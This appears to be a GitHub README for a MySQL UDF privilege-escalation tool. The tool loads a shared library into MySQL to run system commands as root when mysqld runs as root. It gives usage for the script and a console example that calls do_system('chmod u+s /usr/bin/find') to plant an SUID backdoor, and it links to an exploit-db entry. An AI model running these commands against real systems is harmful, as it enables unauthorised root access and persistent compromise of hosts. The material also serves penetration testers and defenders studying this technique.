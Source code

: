 # MySQL-UDF-PrivEsc
Using MySQL UDF to excute system commands
<br/>Prerequisites:
- mysqld must run as root (ps aux | grep mysqld)
- you must know know the credentials of a MySQL user that has the permission to create stored function on the DBMS

# How does it works?
The script use UDF shared library on MySQL to execute commands on a system, if mysqld run as root, so the passed (-c)ommand will be executed as root. On a 64bit *nix box you can pass the compiled .so included in this repo.<br/>
How to use the script: $0 -u <mysql user> -p <mysql user password> -s <path of the shared library> -c <command to execute> e.g.<br/>
<i>$ mysql_udf_exec_sys.sh -s lib_sys_udf.so -u root -p Secrete -c 'whoami > /tmp/whoM; chmod go+r /tmp/whoM;'</i><br>
  Once the script has been correctly executed you can direct access MySQL console and use the function do_system directly:<br>
<pre>mysql> use mysql;
mysql> select do_system('chmod u+s /usr/bin/find');
+--------------------------------------+
| do_system('chmod u+s /usr/bin/find') |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.00 sec)
</pre>
  
<br><br><b>Please have a look to the following resources to get specific information about the exploit: </b>
  - https://www.exploit-db.com/exploits/1518
  - MySQL UDF: https://mariadb.com/kb/en/library/create-function-udf 
  - Shared library soname: https://en.wikipedia.org/wiki/Soname
